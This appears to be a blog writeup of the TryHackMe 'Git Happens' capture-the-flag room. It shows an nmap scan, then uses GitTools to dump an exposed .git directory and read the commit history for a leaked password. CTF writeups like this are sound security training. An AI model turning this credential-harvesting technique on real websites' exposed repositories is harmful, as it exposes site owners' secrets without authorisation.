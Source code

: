 ```yaml
---
layout: post
title: Git Happens Writeup
subtitle: Can you find the password to the application?
thumbnail-img: /assets/img/githappenslogo.png
# cover-img: 
# gh-badge: [star, fork, follow]
tags: [ctf,tryhackme, writeup, git]
# comments: true
---
```


Boss wanted me to create a prototype, so here it is! We even used something called ***version control*** that made deploying this really easy!


## Here is a machine information

| Title | Git Happens | 
| :------ |:--- | 
| Difficulty | Easy | 
| Point | 80 |
| Maker | Hydragyrum |
| Infor | This is a free room, which means anyone can deploy virtual machines in the room  | 


## NMAP
We have an IP as usual, and we can start with the basic nmap scan

```bash
nmap -sC -sV -A machine-ip 
```
<em>

-A : Os detection, version detection, traceroute

-sS : TCP syn scan ( for faster scan, needs root privilege )

-o : For storing output in file
</em>

After finishing scan with nmap, we got the result as tcp (80) is open and more interesting directory was found is *.git*

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-28 02:35 EDT
Nmap scan report for 10.10.242.228
Host is up (0.22s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-git: 
|   10.10.242.228:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Super Awesome Site!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## What can we do with .git  directory?

i tryed to access the .git directory via *http://machine-ip/.git*

![.git directory](/assets/img/git.png)

In order to get the contents of the directory, I used this.
My favorite search engine is [GitTool](https://github.com/internetwache/GitTools)
After clone this tool. 

firstly, we need to dump all the file by cmd 

```bash
./gitdumper.sh http://machine-ip/.git/ gitdump
```
Then  extract it.
```bash
./extractor.sh /gitdump /extractor
```
After finish all the dump and extract. i got this.

![extractor](/img/extract.png)

In order to get all the files in the previous commits, we run this command

```bash
git checkout .
```
we got all files: 

![extractor](/assets/img/extractall.png)

## Getting the password 

Nomally, when we have the git file. we should run cmd 

```bash
git log
```
![gitlog](/assets/img/gitlog.png)

We can go through all the modification file by run:

```bash
git show bc8054d9d95854d278359a432b6d97c27e24061d
```
We can see all the file change in this commit.
We go through all commit with this command. 
in the ***e56eaa8e29b589976f33d76bc58a0c4dfb9315b1*** object. 
 
![result](/assets/img/result.png)

Yeah, we got the password now !!!!

Another way, it will not waste your time to  much by run:

 ```bash
 git log | grep commit | cut -d " " -f2 | xargs git show 
```

This will real all the changed files.